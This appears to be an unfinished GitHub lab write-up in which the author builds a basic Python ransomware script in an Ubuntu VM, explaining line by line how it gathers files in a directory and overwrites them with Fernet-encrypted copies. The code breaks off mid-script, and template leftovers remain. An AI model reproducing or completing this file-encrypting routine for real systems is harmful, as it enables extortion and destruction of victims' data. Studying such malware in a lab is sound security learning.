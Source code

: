 # Ransomware
Deploying ransomware using Python

## Objective


As ransomware attacks have been on a steady upward trend, I wanted to take the time to understand one of the methods of carrying out a ransomware attacks.

### Skills Learned


- Advanced understanding of SIEM concepts and practical application.
- Python scripting
- Cryptography
- 


### Tools Used
[Bullet Points - Remove this afterwards]

- Python
  

## Steps

First we are going to spin up an Ubuntu VM

Next we will create a directory with several files that we are going to test our ransomware on.

So we insert into the CLI "mkdir ransomware" to create the directory and inside the directory, run "echo "file content" > filename.txt" a few times to create several files.

Next we will create the Python script file.

To make this project easier to read I will briefly notate each line of code seperated by "//" to explain its utility in the script.

First we have to include the shebang #! so that Linux runs the file as a script.

Import os // allows python to interact with the OS.

from cryptography.fernet import Fernet // 128bit AES

files = [] // This will create an empty list called files.

for file in os.listdir() // This is a for loop and will list all the files in the directory.

if os.path.isfile(file) // if object is a file add to encryption list

if file == "ransomware.py" or file == "thekey.key" : (next line)continue(next line) files.append(file) // This is seperating our script file that is in the same directory forom the file list we created earlier in the script.

print(files) // Will display the "files" list on the CLI.

ref: test print

key = Fernet.generate_key() // This will generate the encryption key.

with open("thekey.key", "wb") as thekey: // This line uses the open function to open the file in script in write mode and reference the variable as "thekey" throughout the script.

for file in files: // This is creating a loop for the file's in the files list created earlier.

with open(file, "rb") as thefile: // This line will open the file's in the list in read binary mode and assigned the alias "thefile".

contents = thefile.read() // we have now made contents a alias to the file.read

contents_encrypted = Fernet(key).encrypt(contents) // This line encrypt the contents with the Fernet key.

with open(file, "wb") as thefile: 

13:33

*Ref 1: Network Diagram*
